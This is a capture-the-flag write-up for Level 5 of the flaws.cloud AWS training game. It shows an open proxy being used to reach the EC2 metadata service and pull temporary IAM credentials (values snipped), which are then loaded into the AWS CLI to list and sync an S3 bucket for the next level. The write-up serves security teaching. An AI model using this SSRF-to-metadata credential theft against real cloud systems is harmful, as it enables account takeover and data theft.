


Status: Done
Assign: Dcyberguy

## Level 5



There is mention of on an `EC2 has a simple HTTP only proxy on it`. Let’s check the `EC2 instance Metadata service`

```json
curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws | jq
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 23 Jan 2026 20:57:00 GMT
Content-Type: text/plain
Content-Length: 1570
Connection: keep-alive
Accept-Ranges: none
Last-Modified: Fri, 23 Jan 2026 20:50:20 GMT

{
  "Code": "Success",
  "LastUpdated": "2026-01-23T20:49:43Z",
  "Type": "AWS-HMAC",
  << SECRETS SNIPPED>>,
  "Expiration": "2026-01-24T03:04:03Z"
}

```
If using `Linux`, you can use the `export` command and add the AWS creds to your `env variable`.

```bash
export AWS_ACCESS_KEY_ID=your_access_key
export AWS_SECRET_ACCESS_KEY=your_secret_key
export AWS_SESSION_TOKEN=your_session_token

```

OR manually added the above short-termed creds to my `.aws/credential` file, and it worked

```json
aws sts get-caller-identity --profile flawsv2 | jq
{
  "UserId": "AROAI3DXO3QJ4JAWIIQ5S:i-05bef8a081f307783",
  "Account": "975426262029",
  "Arn": "arn:aws:sts::975426262029:assumed-role/flaws/i-05bef8a081f307783"
}

```

They also provided a level6 link. So I can list all s3 bucket 

```json
aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud --profile flawsv2
                           PRE ddcc78ff/
2017-02-26 21:11:07        871 index.html

```

I see a folder `ddcc78ff`. Let’s dump all the content of that folder using the `sync` command.

```json
aws s3 --profile flawsv2 sync s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff /home/kali
warning: Skipping file /home/kali/.cache/ibus/dbus-TfK15UJ0. File is character special device, block special device, FIFO, or socket.
warning: Skipping file /home/kali/.cache/ibus/dbus-pOgS4XPF. File is character special device, block special device, FIFO, or socket.
warning: Skipping file /home/kali/.cache/ibus/dbus-tlH4lvQ7. File is character special device, block special device, FIFO, or socket.
warning: Skipping file /home/kali/.cache/ibus/dbus-KxfTp8Oo. File is character special device, block special device, FIFO, or socket.
warning: Skipping file /home/kali/.cache/ibus/dbus-Ih6mefs0. File is character special device, block special device, FIFO, or socket.
warning: Skipping file /home/kali/.cache/ibus/dbus-XfWCMC0u. File is character special device, block special device, FIFO, or socket.
warning: Skipping file /home/kali/.cache/ibus/dbus-GtODLejG. File is character special device, block special device, FIFO, or socket.
warning: Skipping file /home/kali/.mozilla/firefox/9efjeiqd.default-esr/lock. File does not exist.
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/index.html to ./index.html
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/hint2.html to ./hint2.html
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/hint1.html to ./hint1.html

```

Looking at the `index.html` file, we are presented with another `AWS ACCESS KEYS`




Head over to Level 6 --------->